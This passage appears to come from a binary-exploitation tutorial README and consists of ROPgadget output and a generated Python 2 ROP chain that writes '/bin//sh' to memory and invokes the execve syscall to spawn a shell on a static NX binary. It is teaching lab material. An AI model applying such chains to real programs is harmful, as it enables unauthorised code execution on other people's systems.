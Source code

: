 ```shell
	[+] Gadget found: 0x80493e3 xor eax, eax ; ret
	[+] Gadget found: 0x807e1df inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x80481d1 pop ebx ; ret
	[+] Gadget found: 0x80e2fc9 pop ecx ; ret
	[+] Gadget found: 0x807299a pop edx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x8070605 int 0x80

- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee060) # @ .data
	p += pack('<I', 0x080bbb46) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee064) # @ .data + 4
	p += pack('<I', 0x080bbb46) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee068) # @ .data + 8
	p += pack('<I', 0x080493e3) # xor eax, eax ; ret
	p += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481d1) # pop ebx ; ret
	p += pack('<I', 0x080ee060) # @ .data
	p += pack('<I', 0x080e2fc9) # pop ecx ; ret
	p += pack('<I', 0x080ee068) # @ .data + 8
	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee068) # @ .data + 8
	p += pack('<I', 0x080493e3) # xor eax, eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x08070605) # int 0x80
```


[1]: ./src/1_staticnx.c
[2]: ./build/1_staticnx
[3]: ./scripts/1_skeleton.py
[4]: ./scripts/2_ropexploit.py
[5]: ./scripts/3_brokenrop.py
[6]: http://syscalls.kernelgrok.com/